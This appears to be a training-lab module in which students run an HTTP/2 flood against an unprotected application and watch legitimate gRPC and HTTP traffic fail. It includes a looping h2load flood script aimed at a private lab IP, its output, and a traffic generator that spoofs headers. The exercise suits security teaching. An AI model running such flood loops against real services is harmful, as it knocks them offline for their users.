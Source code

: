 Module 6 - HTTP/2 and GRPC DoS Attack on Unprotected Application
################################################################

| In this module you will generate **good** and malicious traffic. With the addition of malicious traffic will cause the good traffic to error out. We
| will utilize HTTP/2 and gRPC as part of this module.

Demonstrate the effects of an HTTP/2 and gRPC attacks on an unprotected application
-----------------------------------------------------------------------------------

Generate legitimate traffic 
   1. In UDF, Click on Access for the **Legitimate Traffic Generator** VM and select WebShell (or ssh into the box if you set that up)
   2. We will utilize the **good.sh** bash script in order to generate HTTP 1 traffic using **curl**, HTTP 2 traffic using **h2load** and using Python3 with route_guide_client to generate gRPC traffic.

.. code-block:: bash 
   :caption: /good.sh

   #!/bin/bash
   cd /grpc/examples/python/route_guide/

   IP=10.1.1.17
   PORT=600
   URI='good_path.html'

   declare -a array=("/#/login" "/#/about" "/assets/public/images/products/apple_pressings.jpg" "/#/search")

   while true; do
   echo
   python3 /grpc/examples/python/route_guide/route_guide_client.py  2>&1 | grep "Finished\|502"
   h2load -n 10 -c 10 --header="te: trailers " --ciphers=AES128-GCM-SHA256  https://10.1.1.17:443/testing/ &> /dev/null

   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null -w "JUICESHOP HTTP Code:%{http_code}\n" -A "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X; en-us) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8J2 Safari/6533.18.5" -H "X-Forwarded-For: 3.3.3.1" http://${IP}:${PORT}/${URI} &
   echo
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.112 Safari/534.30" -H "X-Forwarded-For: 3.3.3.2" http://${IP}:${PORT}/${URI} &
   URI=${array[$(( RANDOM % 3 ))]}
   curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.3" -H "X-Forwarded-For: 3.3.3.3" http://${IP}:${PORT}/${URI} &


3. Run the good traffic shell script and keep it running:

.. code-block:: bash

   /good.sh


Output from the script: 

.. code:: shell 
 
   JUICESHOP HTTP Code:200
   Finished trip with 10 points

   JUICESHOP HTTP Code:200
   Finished trip with 10 points

   JUICESHOP HTTP Code:200
   Finished trip with 10 points 


Start HTTP/2 Flood attack
   1. Back in the UDF, click 'Access' on the **Attack Traffic Generator** VM and select WebShell

.. code-block:: bash
   :caption: http2flood.sh
   
   #!/bin/sh
   while true; do
      h2load -n 10000 -c 1000 http://10.1.1.17:500/routeguide.RouteGuide/GetFeature
   done


2. Run the http2 flood script for 15 seconds and keep it running:

.. code-block:: bash

   /scripts/http2flood.sh


Attack script output:

.. code:: shell 

  finished in 1.07s, 9350.31 req/s, 2.09MB/s
  requests: 10000 total, 10000 started, 10000 done, 0 succeeded, 10000 failed, 0 errored, 0 timeout
  status codes: 0 2xx, 0 3xx, 0 4xx, 10000 5xx
  traffic: 2.23MB (2339000) total, 527.34KB (540000) headers (space savings 45.45%), 1.50MB (1570000) data
                       min         max         mean         sd        +/- sd
  time for request:      625us       1.02s     52.83ms     25.29ms    85.84%
  time for connect:     9.42ms     28.08ms     20.14ms      4.61ms    70.10%
  time to 1st byte:    35.60ms       1.04s     96.07ms     66.04ms    99.60%
  req/s           :       9.56       21.66       17.79        1.69    72.90%
  starting benchmark...
  spawning thread #0: 1000 total client(s). 10000 total requests
  Application protocol: h2c
  progress: 10% done
  progress: 20% done
  progress: 30% done
  progress: 40% done
  progress: 50% done
  progress: 60% done
  progress: 70% done
  progress: 80% done
  progress: 90% done
  progress: 100% done

3. Click back on to the WebShell on the Legitimate Traffic Generator VM. Did the output from the script change? Output should no longer show “Finished trip with 10 points” and you may see a:

   .. code:: shell

      "debug_error_string = "UNKNOWN:Error received from peer {created_time:"2024-01-26T15:39:49.83945022+00:00", grpc_status:2, grpc_message:"Stream removed"}""

4. Stop the HTTP2Flood attack running on the Attack Traffic Generator host by pressing CTRL+C

5. On the Legitimate Traffic Generator WebShell, press CTRL+C to exit the script
